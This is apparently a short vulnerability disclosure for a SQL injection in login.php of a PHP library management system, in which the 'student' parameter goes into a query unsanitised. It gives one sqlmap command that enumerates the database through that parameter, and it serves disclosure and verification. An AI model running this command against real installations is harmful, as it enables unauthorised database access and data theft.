




**Title:** Library Management System In PHP With Source Code (Ver.2.0) login.php sql Injection 

**Vendor:** Fabian Ros [Library Management System In PHP With Source Code (Ver.2.0) - Source Code & Projects](https://code-projects.org/library-management-system-in-php-with-source-code-ver-2-0/)

**Audit:**

The argument `student` concatenated to query without being sanitized, resulting in sql injection



**Verify:**

*Environment*: The database is named "libsystem" as follows:



- Step 1: Save the request to a.txt



- Step2: exploit

```shell
sqlmap -r a.txt -p student  --batch --current-db --flush-session
```




